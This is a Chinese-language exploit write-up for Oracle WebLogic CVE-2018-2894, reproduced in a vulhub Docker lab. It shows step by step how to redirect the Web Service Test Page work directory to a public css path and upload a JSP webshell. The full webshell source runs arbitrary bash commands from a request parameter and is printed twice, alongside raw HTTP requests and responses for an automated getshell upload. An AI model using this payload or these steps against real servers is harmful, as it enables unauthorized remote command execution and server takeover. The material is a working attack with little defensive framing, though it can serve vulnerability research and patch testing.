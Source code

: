 # Weblogic CVE-2018-2894

CVE-2018-2894

## 0x01 前言


Oracle 7月更新中，修复了Weblogic Web Service Test Page中一处任意文件上传漏洞，Web Service Test Page 在“生产模式”下默认不开启，所以该漏洞有一定限制，

利用该漏洞，可以上传任意jsp文件，进而获取服务器权限。

## 0x02 漏洞环境
```
Ubuntu 16.04
https://github.com/vulhub/vulhub/blob/master/weblogic/CVE-2018-2894/
```

执行如下命令，启动weblogic 12.2.1.3：

`docker-compose up -d`

环境启动后，访问http://your-ip:7001/console，即可看到后台登录页面。

执行docker-compose logs | grep password可查看管理员密码，管理员用户名为weblogic。

![](./CVE-2018-2894-weblogic-password.jp)

登录后台页面

![](./web-console-base-domain.jpg)

点击base_domain的配置，在“高级”中开启“启用 Web 服务测试页”选项：

![](./web-server-test-page.jpg)

## 0x03 启动web测试页面，上传木马

默认工作路径：`/u01/oracle/user_projects/domains/base_domain/tmp/WSTestPageWorkDir`

![](./work-home-path.jpg)

如果不更改，shell会上传到

`/u01/oracle/user_projects/domains/base_domain/tmp/WSTestPageWorkDir/config/keystore/` 目录下面，访问会是404，还要登陆后wls_utc才能访问(`http://47.52.239.99:7001/ws_utc/login.do`)

所以，为了避免诸多限制，需更改路径为

`/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css`

静态文件css目录，访问这个目录是无需权限的

![](./web-css-path.jpg)

然后点击‘安全’ -> 添加，然后上传文件webshell：

![](./web-upload-shell.jpg)

### cmd.jsp

![](./web-cmd-jsp.jpg)

```
<%@ page import="java.util.*,java.io.*,java.net.*"%>
<HTML><BODY>
<FORM METHOD="POST" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "\n<BR>");
        Process p = Runtime.getRuntime().exec("/bin/bash -c " + request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); disr = dis.readLine(); }
        }
%>
</pre>
</BODY></HTML>

```
上传的文件名为：时间戳 + 下划线 + 上传的文件名名称

然后再浏览器访问

http://47.52.239.99:7001/ws_utc/css/config/keystore/1532055866654_cmd.jsp

![](./get-web-shell.jpg)

获取当前工做路径

![](./current-path.jpg)

一键getshell脚本

![](cve-2018-2894-python-shell.jpg)

`http://10.10.20.100:7001//ws_utc/resources/setting/options`

```
POST //ws_utc/resources/setting/options HTTP/1.1
Host: 10.10.20.100:7001
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.21.0
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded
Content-Length: 242

BasicConfigOptions.proxyHost=&BasicConfigOptions.workDir=%2Fu01%2Foracle%2Fuser_projects%2Fdomains%2Fbase_domain%2Fservers%2FAdminServer%2Ftmp%2F_WL_internal%2Fbea_wls_internal%2F9j4dqk%2Fwar&setting_id=general&BasicConfigOptions.proxyPort=80
```

```
HTTP/1.1 200 OK
Connection: close
Date: Wed, 11 Sep 2019 03:44:45 GMT
Content-Length: 102
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?><result><state>ok</state><desc>Save successfully</desc></result>
```

`http://10.10.20.100:7001//ws_utc/resources/setting/keystore`

```
POST //ws_utc/resources/setting/keystore HTTP/1.1
Host: 10.10.20.100:7001
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.21.0
Content-Length: 1276
Content-Type: multipart/form-data; boundary=15c7827fa05d93b814d5a39fe1c55bcb

--15c7827fa05d93b814d5a39fe1c55bcb
Content-Disposition: form-data; name="ks_filename"; filename="shaoyu.jsp"


<%@ page import="java.util.*,java.io.*,java.net.*"%>
<HTML><BODY>
<FORM METHOD="POST" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send Command">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "\n<BR>");
        Process p = Runtime.getRuntime().exec("/bin/bash -c " + request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); disr = dis.readLine(); }
        }
%>
</pre>
</BODY></HTML>

--15c7827fa05d93b814d5a39fe1c55bcb
Content-Disposition: form-data; name="ks_password_front"; filename="ks_password_front"

360sglab
--15c7827fa05d93b814d5a39fe1c55bcb
Content-Disposition: form-data; name="ks_password_changed"; filename="ks_password_changed"

true
--15c7827fa05d93b814d5a39fe1c55bcb
Content-Disposition: form-data; name="ks_edit_mode"; filename="ks_edit_mode"

false
--15c7827fa05d93b814d5a39fe1c55bcb--

```
```
HTTP/1.1 200 OK
Connection: close
Date: Wed, 11 Sep 2019 03:44:45 GMT
Content-Length: 294
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?><setting id="security"><section name="key_store_list"><options xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="securityOptions"><keyStoreItem><id>1568173485782</id><keyStore>shaoyu.jsp</keyStore></keyStoreItem></options></section></setting>
```

#### webshell

`http://10.10.20.100:7001//bea_wls_internal/config/keystore/1568173485782_shaoyu.jsp`

## 0x04   参考链接
```
 http://www.oracle.com/technetwork/security-advisory/cpujul2018-4258247.html
 https://mp.weixin.qq.com/s/y5JGmM-aNaHcs_6P9a-gRQ
 https://xz.aliyun.com/t/2458
 https://github.com/vulhub/vulhub/blob/master/weblogic/CVE-2018-2894/README.md
```

